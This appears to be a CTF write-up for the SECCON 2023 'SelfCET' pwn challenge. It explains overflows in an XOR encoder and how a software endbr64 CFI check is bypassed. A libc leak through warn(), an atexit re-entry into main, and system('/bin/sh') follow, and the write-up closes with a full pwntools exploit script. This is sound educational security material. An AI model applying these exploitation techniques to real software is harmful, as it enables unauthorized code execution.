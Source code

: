 +++
title = "SECCON CTF Quals 2023: SelfCET (pwn)"
author = "Marco Pellero, Domingo Dirutigliano"
tags = ["pwn"]
date = "2023-09-28"
+++

This challenge is a simple XOR encoder: it reads a key and a message, both 32 byte strings, XORs them together and prints the result.
Example:
```
[KEY] 888
[MSG] nop
[OUT] VWH
```

The key and the message are stored in a struct with some error handling features:
```c
struct {
	char key[32];
	char buf[32];
	const char* error;
	int status;
	void (*throw)(int, const char*, ...);
} ctx_t;
```

When an error occurs `error` is set to a relevant message, `status` is set to `EXIT_FAILURE`, a check is performed on `throw()` to prevent it from derailing control flow, and then it is called with `error` and `status` as parameters.

For example, here's how reading input from the user is implemented:
```c
void read_member(ctx_t *ctx, off_t offset, size_t size) {
	if (read(STDIN_FILENO, (void*)ctx + offset, size) <= 0) {
		ctx->status = EXIT_FAILURE;
		ctx->error = "I/O Error";
	}
	
	ctx->buf[strcspn(ctx->buf, "\n")] = '\0';
	
	if (ctx->status != 0) {
		CFI(ctx->throw)(ctx->status, ctx->error);
	}
}
```

I had never seen the type `off_t` before, it's used here to choose which field of the `ctx_t` struct to read; it just indicates the field's offset (for example, `buf`'s offset is 32).

The control-flow check performed on `throw()` is implemented as a macro `CFI` that we can see being used in the failure branch, this is what the macro looks like:
```c
#define INSN_ENDBR64 (0xF30F1EFA) /* endbr64 */
#define CFI(f) \
	({ \
		if (__builtin_bswap32(*(uint32_t*)(f)) != INSN_ENDBR64) \
			__builtin_trap(); \
		(f); \
	})
```

This is just a weird way to check that the first assembly instruction of `throw()` is `endbr64`, and crash the process if it isn't.

By googling a bit i learned about CET (Control-Flow Enforcement Technology) and CFI (Control-Flow Integrity), which are security measures used to prevent control flow corruption techniques like ROP chains.
Put simply, if we mark the start of functions with `endbr64`, when performing a call on a function pointer (like  `throw()`) if we find that we're not jumping to an `endbr64`, we know we're performing an invalid jump, and that there has been an attempt to corrupt the control flow.
These checks are performed by the CPU and only work if the CPU, the OS, libraries, and the program itself all support and use CET; this program implements a software CET instead.

Looking at when the user input is actually read, we can see we have 2 buffer overflows:
```c
int main() {
	ctx_t ctx = { .error = NULL, .status = 0, .throw = err };
	
	read_member(&ctx, offsetof(ctx_t, key), sizeof(ctx));
	read_member(&ctx, offsetof(ctx_t, buf), sizeof(ctx)); // definitely OOB!
	
	encrypt(&ctx);
	write(STDOUT_FILENO, ctx.buf, KEY_SIZE);
	
	return 0;
}
```

It's reading `sizeof(ctx)` bytes instead of `sizeof(key)` and `sizeof(buf)` (both are 32 bytes). We're able to first overwrite the whole `ctx` struct, and then also overwrite 32 bytes outside of it and into main's frame pointer, though this isn't very useful since there's the canary.

Since we can overwrite `throw()`, we have an arbitrary call with 2 controlled parameters, but we have no leaks; the binary isn't PIE, but we're limited to functions starting with `endbr64`, and there aren't any useful ones in the binary itself.

We can leak the libc by setting `error` to a GOT entry, but `err()` also calls `exit()`; we need some way to leak the libc without also crashing..
We can achieve this via a partial overwrite, and by looking at `endbr64` occurrences near `err()`, i found `warn()`, which behaves like `printf()`.

So with my first payload i'll set the status to a GOT entry (it's then passed as the first parameter to `throw()`), and overwrite the lower bytes of `throw()` to point to `warn()`.

Now `read_member()` is called again, and i can call any libc function i want.
I can't call one_gadgets because they don't start with `endbr64`, and i can't call `system()` because the first parameter must be a pointer to "/bin/sh", but it's nowhere in the binary's memory, and since `status` is an int i can only pass a 4 byte number, and libc addresses are much bigger than that.

I wasn't able to find a way to spawn a shell or read the flag from here, so i tried to find ways to jump to main again, which i can't do directly because it doesn't start with `endbr64` (`_init()` does, but it checks if it's already been called once, and if so doesn't start main).

What i ended up doing is calling `atexit()` to register `main()` as an exit handler, which means that before closing the program, `main()` will be called again, and i can perform a second stage of my attack, in which i can first call `gets()` to read "/bin/sh" into memory,but using a 32 bit sized address on a writable memory map, and then `system()` using this address.


Here's the final exploit:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./xor")
libc = ELF("./libc.so.6")

context.binary = exe


io = process("./xor")

# leak libc by printing a GOT entry via a partial overwrite (throw goes from err() to warn())
payload = b'\n' + b'A'*63 + p64(exe.got["err"])*2 + b"\x10\x10"
io.send(payload)

io.recvuntil(b": ")
leak = u64(io.recv(6).ljust(8, b'\0'))
libc.address = leak - 0x1211d0
log.info(f"libc @ {hex(libc.address)}")

payload = b'\n' + b'A'*31 + flat(1, exe.sym["main"], libc.sym["__cxa_atexit"])
io.send(payload)
log.info("Registered main as an exit handler, starting again")

# read '/bin/sh' into memory so we can use it to call system()
payload = b'\n' + b'A'*63 + flat(1, exe.bss(0x100), libc.sym["gets"])
io.send(payload)
io.sendline(b"/bin/sh")

# finally, call system()
payload = b'\n' + b'A'*31 + flat(1, exe.bss(0x100), libc.sym["system"])
io.send(payload)

io.interactive()
```

Enjoy hacking!